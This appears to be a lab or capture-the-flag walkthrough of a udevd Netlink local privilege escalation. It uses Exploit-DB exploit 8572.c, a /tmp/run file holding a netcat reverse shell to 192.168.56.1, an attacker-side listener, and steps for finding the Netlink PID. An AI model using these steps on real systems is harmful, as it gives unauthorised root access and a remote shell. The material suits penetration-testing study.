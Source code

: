 # UDEVD

the exploit code is here:

#### `/usr/share/exploitdb/exploits/linux/local/8572.c`

we have to send it to victim machine and compile it there

after transferring and compiling with gcc 8572.c -o exploit , we have to create the file /tmp/runafter executing the exploit every command inside the run file will be executed as root. so we can write the run file like this:

#### `#!/bin/bash` ` nc -nv 192.168.56.1 1234 -e /bin/bash`

on attacker side:

#### `nc -nvlp 1234`

now we have to find the PID (process identifier) of the Netlink socket, which is usually the PID of the UDEVD process minus one. We can do that by running cat /proc/net/netlink, and the only nonzero PID should be the number we want. Verify that this is correct by running ps aux | grep udev — it should be one number higher.

![](../../../.gitbook/assets/udevd1.png)

now run the exploit and we have a root shell in netcat:

![](../../../.gitbook/assets/udevd2.png)

